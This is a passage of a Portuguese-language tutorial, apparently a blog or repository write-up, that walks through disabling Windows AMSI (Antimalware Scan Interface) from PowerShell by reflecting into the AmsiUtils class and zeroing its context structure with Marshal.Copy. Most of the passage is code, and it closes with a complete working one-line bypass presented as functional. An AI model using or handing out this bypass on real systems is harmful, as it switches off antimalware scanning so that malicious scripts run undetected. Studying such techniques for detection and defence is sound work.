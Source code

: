 ```powershell
$f.GetValue($null)
```

Que irá retornar um número decimal:

![Untitled](./Untitled%2012.png)
Para confirmar que esse número é realmente o que estamos procurando, vamos convertê-lo
para hexadecimal, que no meu caso, será **0x1563745672608**.

Por último, temos que zerar a estrutura, igual fizemos no WinDBG. Para isso, vamos salvar
esse endereço em uma variável

```powershell
$g=$f.GetValue($null)
```

Criar um ponteiro para acessar o conteúdo do endereço de memória

```powershell
[IntPtr]$ptr=$g
```

Depois vamos criar uma variável com o conteúdo 0

```powershell
[Int32[]]$buf=@(0)
```

E por último, copiar o valor para o ponteiro com a função Copy:

```powershell
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

Colocando tudo isso em uma linha, teremos o seguinte bypass:

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

Assim criamos um bypass funcional para o AMSI:

![Untitled](./Untitled%2013.png)

Obrigado por ler até aqui, e até a proxima.